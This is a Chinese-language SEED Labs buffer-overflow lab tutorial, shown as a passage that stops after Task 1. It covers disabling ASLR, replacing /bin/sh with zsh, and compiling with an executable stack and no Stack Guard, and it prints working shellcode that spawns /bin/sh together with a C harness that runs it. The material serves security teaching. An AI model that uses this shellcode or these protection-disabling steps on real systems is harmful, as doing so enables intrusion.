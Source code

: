 # 缓冲区溢出实验详细说明

> 内容来源：SEED Labs

##  1 初始化安装

缓冲区溢出攻击是危害最大的攻击方式之一。为了防止缓冲区溢出攻击，已经研究出了多种保护机制，比较常用的有：
- 地址空间随机化
- 禁止栈执行
- Stack Guard

为了演示缓冲区溢出攻击的原理，我们将禁用这些机制。

1. 禁止地址空间随机化
本次实验在 ubuntu虚拟机下运行。需要禁止一些安全机制。在初始安装阶段，我们先执行下列语句：

```
# 禁止地址空间随机化机制 

[08/06/19]seed@VM:~$ sudo sysctl -w kernel.randomize_va_space=0
[sudo] password for seed: 
kernel.randomize_va_space = 0
```
注：sysctl命令用于运行时配置内核参数，这些参数位于/proc/sys目录下。sysctl配置与显示在/proc/sys目录中的内核参数．可以用sysctl来设置或重新设置联网功能，如IP转发、IP碎片去除以及源路由检查等。用户只需要编辑/etc/sysctl.conf文件，即可手工或自动执行由sysctl控制的功能。

2. 改变shell

此外，为了进一步防范缓冲区溢出攻击及其它利用shell程序的攻击，许多shell程序在被调用时自动放弃它们的特权。因此，即使你能欺骗一个Set-UID程序调用一个shell，也不能在这个shell中保持root权限，这个防护措施在/bin/bash中实现。

linux系统中，/bin/sh实际是指向/bin/bash或/bin/dash的一个符号链接。为了重现这一防护措施被实现之前的情形，我们使用另一个shell程序（zsh）代替/bin/bash。下面的指令描述了如何设置zsh程序：
```
sudo su
cd /bin
rm sh
ln -s zsh sh
```

##  2 任务1：运行Shellcode

任务1的任务是运行一个程序测试一个shellcode，它将注入到某个脆弱程序的堆栈中。

首先我们了解一下将要编译的shellcode源程序。用于打开一个shell的代码被转化为二进制机器码，粗放在code字符串中。
```
/*
A program that creates a file containing code for launching shell
*/

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  "\x31\xc0"    /* xorl %eax, %eax    */
  "\x50"        /* pushl %eax         */
  "\x68""//sh"  /* pushl $0x68732f2f  */
  "\x68""/bin"  /* pushl $0x6e69622f  */
  "\x89\xe3"    /* movl %esp,%ebx     */
  "\x50"        /* pushl %eax         */
  "\x53"        /* pushl %ebx         */
  "\x89\xe1"    /* movl %esp, %ecx    */
  "\x99"        /* cdq                */
  "\xb0\x0b"    /* movb $0x0b, %al    */
  "\xcd\x80"    /* int $0x80          */
;

int main(int argc, char **argv){
  char buf[sizeof(code)];
  strcpy(buf,code);
  ((void(*)())buf)();
}
```

上面的C程序中包含了一段shellcode，存放在字符数组中。这个数组将被拷贝到缓冲区中。


- 允许或禁止栈执行 
```
#在编译c程序代码时设置 
#允许：
gcc -z execstack -o test test.c 
#禁止：
gcc -z noexecstack -o test test.c 
```
- 关闭gcc的Stack Guard 
```
gcc -fno-stack-protector -o test test.c
```